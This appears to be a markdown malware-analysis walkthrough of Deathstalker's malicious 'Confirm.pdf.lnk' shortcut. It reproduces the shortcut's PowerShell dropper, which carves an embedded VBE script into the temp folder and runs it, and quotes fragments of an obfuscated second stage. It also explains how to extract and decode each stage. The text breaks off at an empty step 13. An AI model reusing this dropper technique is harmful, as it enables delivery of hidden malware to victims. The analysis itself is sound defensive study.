


## Deathstalker exploit history
Although it was a virus that infected financial institutions, it contained no malware. It appears that this was a "malware-for-hire" program where a company could use it to spy on other comapnies.

## Analyzing the PDF LNK document (shortcut)
1. When right clicking and viewing the properties of *Confirm.pdf*, we see that it's not actually a PDF document, but a shortcut, with a target set to `C:\Windows\System32\cmd.exe`
2. When we open 010 editor and drag the file into it (**note: do not "open with 010 editor", you must open editor first, then drag file for analysis**) we see at the top some normal magic number headers, and then  a call to cmd.exe with some powershell script after it. This by itself is not useful because there are several null-byte hex codes in there, so we can copy the script, remove the `0x00` hex null-bytes, take the remainder, throw it into Notepad++, and then now we have just the powershell script. We can add line breaks back in by replacing the `;` character with `;\n` and we get something that looks like this:
```powershell
$m='Confirm.pdf.lnk';
$t=[environment]::getenvironmentvariable('tmp');
cp $m $t\$m;
$z=$t+'\'+@(gci -name $t $m -rec)[0];
$a=gc $z|out-string;
$q=$a[($a.length-2350)..$a.length];
[io.file]::WriteAllbytes($t+'\.vbe', $q);
CsCrIpT $t'\.vbe'
```
For reference, if you don't know what a specific powershell command is, you can type in `help <command name>` in a powershell terminal to find out. `gc` = `Get-Content` (an alias for gc, cat, type) and `gci` = `Get-ChildItem` (an alias for gci, ls, dir)
3. The script takes the shortcut file and reads some specific bytes from length-2350 to the end and writes the files to a .vbe script, then executes it.
4. We can pull these bytes out of the file by using 010 editor, pressing ctrl+g to "Go to" and then selecting "Decimal" and "From end of file" in the dropdown menus


5. We can highlight this resulting bytes through the end of the file and save it to a new file by going to *File -> Save Selection -> stage1.vbe*
6. This appears to be an encrypted VBE script, which is a very easy using available tools online. Here is a link to a python script that can do the job: https://github.com/DidierStevens/DidierStevensSuite/blob/master/decode-vbe.py this script only works on Python2 right now. Running the following command: `python2 decode-vbe.py stage1.vbe > stage1-decoded.vbe` gives an output of the decoded script
7. We see in the script that it takes something at offset 2334 with a size of 403632 and saves it to a file called *Confirm.pdf* we can go to 010 editor and go to *Edit -> Select Range* and type in the following:

Then press enter and we see that the range has been selected and we can save just that part to a file.
8. Immediately after the PDF is pulled from memory, it's opened as a decoy document. Then another selection of bytes is pulled from the lnk document, starting right after the PDF  document, with a starting position of 405966 (next byte after PDF) and size of 338462. We can do the same thing here and extract it from 010 editor and see what it is. It looks like it's some encoded data being saved as a file called *~tmpDF3D.ps1*
9. The first bit of processing we can do on the ps1 file is to add line breaks back in. Disable wordwrap, and replace all `;` with `;\n` and then find where there were `;` inside of strings, and fix the strings so they are correct
10. So now that it looks better, we see that there are defined random strings, and then characters being pulled out of the strings via indexes of them. i.e. `$11II=" S2opwermvjrulokbsk#@ksdf...."[13, 3, 60, 30, 29....]`
So we can copy each line one by one into powershell and then type the variable name to see what it gives us.

```powershell
$11II=Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been...
$i111=base 64 encoded string decodes to: SystemRunTimeInteropServicesMarshall::PrTRoStringAuto([SystemRuntimeInteropServiceMarshal]::SecureStringToBSTR($(ConvertTo-SecureString 
$O111=iex
$01Oi=$i111 = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($i111));

# etc.etc.
```
The easiest way to figure out what the powershell script is eventually going to run (by way of the `iex` command) is to replace what we know is the `iex` variable, `$0111` with something like `Write-Output`. If we replace the instance of the `iex` reference getting executed, and then run the whole powershell script and output it to another file we get the decrtpted results.\
`.\~.tmpDF3D.ps1 > stage2.ps1`
12. We can start analyzing the second stage powershell script, and we eventually come across some script that calls `new-object System.IO.BinaryReader` and opens the original file, `Confirm.pdf.lnk`, reading 697088 bytes into $stager2 and reading 8928 bytes into $dll and 4286 bytes into $icon and 614 bytes into $vbs_startup. Writing all the bytes in reverse order to their respective files.
13. 